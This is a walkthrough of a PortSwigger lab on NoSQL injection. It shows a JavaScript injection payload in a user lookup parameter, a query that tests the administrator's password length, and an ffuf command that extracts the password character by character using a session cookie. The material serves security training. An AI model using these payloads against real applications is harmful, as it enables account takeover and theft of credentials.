

# Exploiting NoSQL injection to extract data

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)



## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application has a `My account` page that redirects to `login` page if a user is not logged in.

After logging in to the application with the given credentials, the network tab reveals an interesting URL. The application looks for a user with a given username (`/user/lookup?user=wiener`).

Let's append an apostrophe (`'`) at the end of the user parameter. Surprisingly, the application returned a message saying, "**There was an error getting user details.**".

```json
{
  "message": "There was an error getting user details"
}
```

Maybe our apostrophe (`'`) breaks the query syntax. Now let's inject a JavaScript condition that always evaluates to true, such as `'||'0'=='0`. And observe how response changes. Hmm, we were able to get an administrator user. This is probably because the query is returning all users, and the first user, the administrator user is being returned.


Now, let's examine if the database evaluates the JavaScript as part of the query. If it does then let's try to get the length of the password of the administrator user.

*After trying a bunch of queries we finally got the password length:*

```bash
/user/lookup?user=administrator'%26%26this.password.length=='8
```


**Now, deduce the administrator password character by character. I am going to use ffuf because, Burp (community edition) intruder tab is very slow.**

```bash
ffuf -u "https://YOUR-LAB-ID.web-security-academy.net/user/lookup?user=administrator'%26%26this.password[INDEX]=='FUZZ" -
w wordlist/alpha_numeric.txt -H "Cookie: session=YOUR_SESSION_KEY"
```

**Fill "YOUR-LAB-ID" with your lab ID, "INDEX" with the current length of password you want to get, and "YOUR_SESSION_KEY" with your session cookie.**


You will see a response like this, one of the values will have a different or abnormal response, double check that value on burp, if the request returns the administrator JSON response then it is valid.

After getting the password, log in as an administrator user to solve this lab.


